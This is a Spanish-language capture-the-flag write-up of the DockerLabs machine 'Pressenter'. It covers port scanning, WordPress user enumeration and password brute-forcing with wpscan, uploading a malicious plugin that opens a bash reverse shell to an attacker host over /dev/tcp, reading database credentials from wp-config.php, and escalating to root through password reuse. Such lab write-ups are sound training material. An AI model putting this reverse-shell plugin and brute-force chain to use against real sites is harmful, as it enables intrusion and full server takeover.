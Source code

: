 #MAQUINA #DOCKERLABS #FACIL 
#WPSCAN 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Pressenter** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 11:44 CET
Initiating ARP Ping Scan at 11:44
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:44, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:44
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:44, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-02 11:44:56 CET for 0s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.70 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
                                                                      

```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 11:45 CET
Nmap scan report for escolares.dl (172.17.0.2)
Host is up (0.000023s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Pressenter CTF
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.41 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 11:45 CET
Nmap scan report for escolares.dl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)

Al revisar la web que hay en el puerto 80, vemos que parece no haber nada, pero hay una redirección hacia http://pressenter.hl.
Al entrar vemos que es un WordPress( lo pone al final de la pagina).

Usamos **wpscan** :
   ```bash
 wpscan --url "http://pressenter.hl/" --enumerate u
```

**Usuario -> pressi**

   ```bash
 wpscan --url "http://pressenter.hl/" -U pressi -P /usr/share/wordlists/rockyou.txt
```

**Usuario -> pressi**
**Contrasena -> dumbass**

# EXPLOTACION

Nos registramos como pressi (http://pressenter.hl/wp-login.php).

Nos vamos a plugins y subimos y activamos un plugin. Vamos a subir un zip que nos otorgue una reverse shell y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**).
Contenido del zip, un php con:

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

# ESCALADA PRIVILEGIOS

Vemos que no podemos escalar por SUDO, ni SUID ni cosas así.
Buscamos el archivo de configuración de wordpress (**wp-config.php**)
Vemos que tenemos un usuario de mysql (admin) y una contraseña (rooteable). Accedemos y dejo los comandos empleados hasta lo importante:

   ```bash
mysql -u admin -p
show databases;
use wordpress;
show tables;
select * from wp_usernames;

```
**Usuario -> enter** (se encuentra en el /etc/passwd  también)
**Contrasena -> kernellinuxhack**

YA ESTAMOS COMO ENTER.

El usuario **root** reutiliza la contraseña de **enter**

**YA ESTAMOS COMO ROOT.**

